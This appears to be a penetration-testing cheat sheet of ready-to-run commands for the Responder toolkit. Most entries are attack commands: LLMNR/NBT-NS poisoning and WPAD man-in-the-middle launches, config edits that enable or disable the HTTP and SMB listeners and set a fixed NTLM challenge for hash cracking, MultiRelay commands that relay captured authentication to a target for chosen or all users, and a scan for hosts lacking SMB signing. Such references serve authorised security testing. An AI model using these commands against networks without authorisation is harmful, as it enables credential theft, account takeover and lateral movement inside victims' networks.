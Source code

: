 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## responder launch
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder –I eth0
```

## responder launch - analyze mode (no poisoning)
#plateform/linux #target/remote #cat/RECON 
```
responder –I eth0 -A
```

## responder launch with wpad file 
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I eth0 --wpad
```

## responder http on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder http off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## responder smb on
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder smb off
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'SMB ='
```

## responder challenge set
#plateform/linux #target/local #cat/UTILS
Set the NTLM challenge for cracking

= challenge: 1122334455667788
```
sed -i 's/Challenge =.*$/Challenge = <challenge>/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## responder challenge reset
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/Challenge =.*$/Challenge = Random/g' /opt/tools/Responder/Responder.conf && cat /opt/tools/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## multirelay attack - user filtered (previous disable HTTP and SMB in Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## multirelay attack - all user (previous disable HTTP and SMB in Responder.conf)
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## runfinger - Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#plateform/linux #target/remote #cat/RECON 
```
runfinger -i <network_range>
```
